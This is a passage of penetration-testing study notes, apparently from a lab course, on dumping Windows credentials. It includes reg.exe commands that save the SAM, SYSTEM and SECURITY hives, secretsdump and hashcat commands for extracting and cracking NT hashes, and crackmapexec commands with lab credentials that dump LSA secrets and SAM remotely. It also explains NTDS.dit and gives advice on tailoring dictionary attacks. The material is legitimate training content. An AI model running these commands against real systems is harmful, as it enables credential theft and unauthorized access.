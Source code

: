 We can create backups of these hives using the `reg.exe` utility.  

- `reg.exe save hklm\sam C:\sam.save`
- `reg.exe save hklm\system C:\system.save`
- `reg.exe save hklm\security C:\security.save`

#### Dumping Hashes with Impacket's secretsdump.py

- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

### Running Hashcat against NT hashes

- `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`

### Dumping LSA Secrets Remotely

- `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`

### Dumping SAM Remotely

- `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

### NTDS

It is very common to come across network environments where Windows systems are joined to a Windows domain. This is common because it makes it easier for admins to manage all the systems owned by their respective organizations (centralized management). In these cases, the Windows systems will send all logon requests to Domain Controllers that belong to the same Active Directory forest. Each Domain Controller hosts a file called NTDS.dit that is kept synchronized across all Domain Controllers with the exception of [Read-Only Domain Controllers](https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema). NTDS.dit is a database file that stores the data in Active Directory, including but not limited to:

- User accounts (username & password hash)
- Group accounts
- Computer accounts
- Group policy objects

## Attack Methods

### Dictionary Attacks

Dictionary attacks involve using a pre-generated list of words and phrases (known as a dictionary) to attempt to crack a password. This list of words and phrases is often acquired from various sources, such as publicly available dictionaries, leaked passwords, or even purchased from specialized companies. The dictionary is then used to generate a series of strings which are then used to compare against the hashed passwords. If a match is found, the password is cracked, providing an attacker access to the system and the data stored within it. This type of attack is highly effective. Therefore, it is essential to take the necessary steps to ensure that passwords are kept secure, such as using complex and unique passwords, regularly changing them, and using two-factor authentication.  

When we find ourselves in a scenario where a dictionary attack is a viable next step, we can benefit from trying to custom tailor our attack as much as possible. In this case, we can consider the organization we are working with to perform the engagement against and use searches on various social media websites and look for an employee directory on the company's website. Doing this can result in us gaining the names of employees that work at the organization. One of the first things a new employee will get is a username. Many organizations follow a naming convention when creating employee usernames. Here are some common conventions to consider:  
